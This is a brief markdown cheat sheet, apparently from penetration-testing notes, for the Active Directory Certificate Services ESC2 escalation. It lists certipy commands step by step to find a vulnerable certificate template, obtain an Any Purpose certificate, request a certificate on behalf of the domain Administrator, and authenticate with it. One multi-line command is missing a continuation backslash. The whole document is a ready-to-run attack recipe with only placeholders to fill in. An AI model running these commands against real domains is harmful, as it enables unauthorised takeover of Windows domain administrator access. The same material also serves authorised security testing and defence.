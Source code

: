# ADCS ESC2

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. Get an “Any Purpose” cert (implicitly an agent)
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC2_ANYPURPOSE_TEMPLATE>
```

## 2b. Use it to request a cert **on behalf of** Administrator
```
certipy req -u <username> -p '<password>' \
            -dc-ip <DC_IP> -target <CA_FQDN> \
            -dc-host <DC_HOST> -ca <CA_NAME> \
            -pfx <attacker.pfx>
            -template <ESC2_ANYPURPOSE_TEMPLATE> -on-behalf-of '<domain>\\Administrator'
```

## 3. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
